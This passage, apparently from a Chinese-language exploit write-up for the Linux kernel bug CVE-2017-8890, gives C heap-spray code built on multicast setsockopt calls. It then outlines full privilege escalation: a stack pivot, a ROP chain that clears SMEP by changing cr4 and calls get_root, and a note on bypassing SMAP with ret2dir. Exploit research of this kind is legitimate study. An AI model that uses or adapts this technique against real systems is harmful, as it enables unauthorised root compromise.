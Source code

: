 ```c
        }

        setsockopt(sockfd[i], SOL_IP, MCAST_JOIN_GROUP, &group, sizeof (group));
    }

}

void heap_spray(){
    struct ip_mreq_source mreqsrc;
    memset(&mreqsrc,0,sizeof(mreqsrc));
    mreqsrc.imr_multiaddr.s_addr = htonl(inet_addr("10.10.2.224"));

    for(int j=0; j<SPRAY_SIZE; j++) {     
        setsockopt(sockfd[j], IPPROTO_IP, IP_ADD_SOURCE_MEMBERSHIP, &mreqsrc, sizeof(mreqsrc));
    }

}
```

#### （3）完整利用

**不同于未开启SMEP的利用程序**：

- （1）用到pivot_stack gadget来跳转到用户栈；
- （2）在EAX指向的用户空间布置ROP链，修改cr4并跳转到`get_root`；
- （3）堆喷射初始化函数和堆喷函数。
- （4）由于构造ROP链会损坏rbp的值，但是`get_root()`返回时需要把rbp给rsp（`leave; ret;`），所以ROP链最开头需要保存rbp，然后在`get_root()`开头恢复rbp。（方法是通过rop链保存到rcx寄存器，在`get_root()`开头赋给rbp——`mov    %rcx, %rbp;`）

**后续**：可用ret2dir方法绕过SMAP；可在内核空间伪造`ip_mc_socklist`。	

**成功截图**：

![3-succeed](/images/posts/CVE-2017-8890/3-succeed.png)

---